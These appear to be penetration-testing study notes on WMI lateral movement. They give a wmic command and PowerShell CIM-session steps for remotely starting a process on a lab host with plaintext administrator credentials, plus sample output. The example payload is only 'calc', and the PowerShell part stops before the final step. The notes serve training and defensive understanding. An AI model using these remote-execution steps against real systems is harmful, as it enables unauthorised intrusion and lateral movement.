 ### Windows Management Instrumentation (WMI)

**WMI Architecture:**
- **Process Creation:** Uses Win32_Process class Create method
- **Communication:** Remote Procedure Calls (RPC) over port 135
- **Session Data:** Higher-range ports (19152-65535) for data transfer
- **Privileges:** Requires Administrator local group membership
- **Session Isolation:** Processes spawn in session 0 (system service context)

**WMI Attack Requirements:**
- Credentials of Administrators local group member (domain user acceptable)
- Network access to target system (RPC ports)
- No UAC remote restrictions for domain users

### Legacy WMI with wmic Utility

**Basic wmic Command Execution:**
```cmd
# Execute process on remote system
wmic /node:192.168.50.73 /user:jen /password:Nexus123! process call create "calc"
```

**Sample Output:**
```
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 5772;
        ReturnValue = 0;
};
```

**Key Indicators:**
- **ProcessId:** PID of newly created process
- **ReturnValue 0:** Successful process creation
- **Session Context:** Process runs as specified user in session 0

### PowerShell WMI Implementation

**Step 1: Create PSCredential Object**
```powershell
# Store credentials securely
$username = 'jen'
$password = 'Nexus123!'
$secureString = ConvertTo-SecureString $password -AsPlaintext -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $secureString
```

**Step 2: Configure CIM Session**
```powershell
# Create DCOM protocol session
$options = New-CimSessionOption -Protocol DCOM
$session = New-CimSession -ComputerName 192.168.50.73 -Credential $credential -SessionOption $options
$command = 'calc'
```
